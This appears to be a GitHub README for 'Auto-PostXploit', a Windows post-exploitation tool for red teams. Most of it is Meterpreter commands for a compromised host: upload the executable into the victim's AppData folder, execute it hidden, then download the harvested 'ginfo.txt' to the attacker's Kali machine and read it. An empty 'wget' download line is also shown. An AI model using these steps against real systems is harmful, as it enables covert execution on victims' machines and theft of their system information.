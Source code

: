 # Auto-PostXploit
<b>Windows Auto Post Exploitation - For ReD Team</b>


* https://github.com/emilyanncr/Windows-Post-Exploitation/


## Download :

  #### wget 


## Usage :

  
  #### meterpreter > upload *path*/Auto-PostXploit.exe C:/Users/*USETNAME*/AppData
  
  #### meterpreter > execute -H -f C:/Users/*USETNAME*/AppData/Auto-PostXploit.exe
  
  [If Auto-PostXploit.exe Not In Process]
  
  #### meterpreter > download C:/Users/*USETNAME*/AppData/ginfo.txt /root/Desktop
  
  #### root@kali:~# cat /root/Desktop/ginfo.txt
